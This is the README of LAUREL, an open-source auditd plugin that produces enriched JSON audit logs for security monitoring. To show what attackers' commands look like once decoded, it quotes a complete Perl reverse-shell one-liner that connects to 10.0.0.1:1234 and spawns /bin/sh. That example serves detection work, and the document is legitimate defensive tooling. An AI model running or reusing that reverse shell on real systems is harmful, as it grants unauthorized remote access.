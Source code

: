 ![logo](laurel.svg)
# Linux Audit – Usable, Robust, Easy Logging

[![Build Status](https://github.com/threathunters-io/laurel/actions/workflows/build.yml/badge.svg)](https://github.com/threathunters-io/laurel/actions/workflows/build.yml)

LAUREL is an event post-processing plugin for _auditd(8)_ that generates useful, enriched JSON-based audit logs suitable for modern security monitoring setups.

Documentation corresponding to the latest stable release can be found [here](https://github.com/threathunters-io/laurel/tree/v0.6.4).

## Why?

TLDR: Instead of audit events that look like this…
```
type=EXECVE msg=audit(1626611363.720:348501): argc=3 a0="perl" a1="-e" a2=75736520536F636B65743B24693D2231302E302E302E31223B24703D313233343B736F636B65742…
```
…_LAUREL_ turns them into JSON logs where the mess that attackers/penetration testers/red teamers are trying to make becomes apparent at first glance:
```
{ … "EXECVE":{ "argc": 3,"ARGV": ["perl", "-e", "use Socket;$i=\"10.0.0.1\";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};"]}, …}
```
This happens at the source because _LAUREL_ runs on the host where the audit events are generated. Events are enriched with useful information about the parent process (ppid):
```
"PPID":{"EVENT_ID":"1643635026.276:327308","comm":"sh","exe":"/usr/bin/dash","ppid":3190631}
```

## Documentation

Configuration and operational details are described in the [laurel(8)](man/laurel.8.md) manual page.
Details about the log format and rationales can be found in the [laurel-about(7)](man/laurel-about.7.md) manual page. The [laurel-audit-rules(7)](man/laurel-audit-rules.7.md) page contains advice and examples for configuring audit rules useful for detecting attackers' tactics.

The [_LAUREL_ installation instructions](INSTALL.md) contain instructions on how to build _LARUEL_ from source and how to install and configure it.

We developed _LAUREL_ because we were not content with feature sets and performance characteristics of existing projects and products. Please refer to the [Performance](performance.md) document for details.

## Container Image

From v0.5.2 on laurel is able to connect to a socket for forwarded auditd messages and can be executed in a container this way. A basic container image is published in this repository to `ghcr.io/threathunters-io/laurel` with tags `latest` and the respective version tag.

The provided container image build includes default labels via docker buildx from the pipeline. These labels are not included in the provided Dockerfile but are considered good practice. If you use a custom build with another tooling, consider adding the default labels to the Dockerfile.

The provided container image contains the default configuration, with one modification: Laurel connects to `/var/run/audispd_events` (the default path specified for the `builtin_af_unix` _auditd(8)_ plug-in. The plug-in needs to be enabled and the socket must be accessible from within the container. The rest of the configuration file should be customized as needed before deploying.

## See also

- [ansible-auditd-laurel](https://github.com/certeu/ansible-auditd-laurel/), an Ansible role to deploy _auditd_ + _laurel_, by @0xFustang / CERT-EU

## License

GNU General Public License, version 3

## Authors

- Hilko Bengen <<bengen@hilluzination.de>>
- Sergej Schmidt <<sergej@msgpeek.net>>

The logo was created by Birgit Meyer <<hello@biggi.io>>.
